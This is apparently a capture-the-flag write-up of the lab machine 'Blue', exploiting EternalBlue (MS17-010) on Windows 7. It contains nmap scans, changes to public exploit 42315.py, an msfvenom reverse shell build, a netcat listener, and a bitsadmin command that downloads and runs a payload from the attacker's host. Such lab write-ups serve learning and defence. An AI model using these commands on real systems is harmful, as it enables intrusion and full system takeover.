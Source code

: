 ```yaml
---
title: Blue
tags: windows
---
```


![image](assets/79369688-5e3d2280-7f1f-11ea-9975-eaf1c4591c5c.png)

## Overview

Blue is a Windows box that was vulnerable to the infamous EternalBlue exploit which was leaked by the Shadow Brokers in 2017. Using the nmap script functionality I was able to determine the box was vulnerable to CVE-2017-0144 / MS17-010, a flaw that allows attackers to execute arbitrary code on a target system by sending specially crafted messages to a SMBv1 server. An existing exploit written in python was used to get a reverse shell as 'nt authority/system'.

> Eternal blue works by exploiting multiple SMBv1 bugs that when chained together allow the attacker to write and execute shellcode to gain access to the target. More information can be found [here](https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/)

## Enumeration

**Software**

* Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.40 -oN /mnt/data/boxes/blue/_full_tcp_nmap.txt
```
    
* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 445/tcp - Microsoft Windows SMB
* 49152/tcp - Microsoft Windows RPC
* 49153/tcp - Microsoft Windows RPC
* 49154/tcp - Microsoft Windows RPC
* 49155/tcp - Microsoft Windows RPC
* 49156/tcp - Microsoft Windows RPC
* 49157/tcp - Microsoft Windows RPC

**Vulnerability Scan**

```
nmap 10.10.10.40 -p 445 -script=smb-vuln*
```

![image](assets/80120412-f14a0e00-8558-11ea-8509-1e602484561e.png)

## Steps (User)

The EternalBlue exploit grants access as nt authority/system, there is no user step.

## Steps (root/system)

Running a search in searchsploit shows a few results.

![image](assets/80120831-906f0580-8559-11ea-83c2-b93d63d02fd6.png)

I went with 42315.py which required a couple modifications:

Line 36: change username to guest

```
USERNAME = 'guest'
PASSWORD = ''
```

Line 910: Modify the smb_pwn function. This specifies the source of the file to transfer (our reverse shell payload), the destination (root of C:), the name of the destination file (rshell.exe), and the location on the target box to execute rshell.exe

```
def smb_pwn(conn, arch):
    
    smbConn = conn.get_smbconnection()
    smb_send_file(smbConn, '/root/boxes/blue/rshell.exe', 'C', 'rshell.exe')
    service_exec(conn, r'cmd /c c:\\rshell.exe')
```

I generated a reverse shell payload using msfvenom and started a netcat listener (rlwrap nc -lvnp 4200)

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4200 -f exe -o rshell.exe
```

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

With the modifications complete, I ran the exploit and received a callback and shell as 'nt authority\system'

```
./42315.py 10.10.10.40 samr
```

![image](assets/80130700-0af25200-8567-11ea-9e77-fdb0630d37cd.png)

## Steps (root/system) #2

Alternatively I could have used bitsadmin to download the payload from my machine via http and excute it to create the reverse shell. I didn't have much luck with the python http server so I used apache. 

I copied the rshell.exe file created earlier to web server root

```
cp rshell.exe /var/www/html/
```

I created a netcat listener (rlwrap nc -lvnp 4200) and started the apache service.

```
systemctl start apache2.service
```

I updated 42315.py to reflect the changes needed to use bitsadmin to download and execute rshell.exe

```
def smb_pwn(conn, arch):
    
    smbConn = conn.get_smbconnection()
    service_exec(conn, r'cmd /c bitsadmin /transfer pwnage /download /priority high http://10.10.14.8/rshell.exe c:\windows\temp\rhell.exe')
    service_exec(conn, r'cmd /c c:\\windows\\temp\\rshell.exe')
```

I ran the exploit and receved a callback and shell as 'nt authority\system'
```
./42315.py 10.10.10.40 samr
```

![image](assets/80132732-1c892900-856a-11ea-9b56-87d893abe5fc.png)
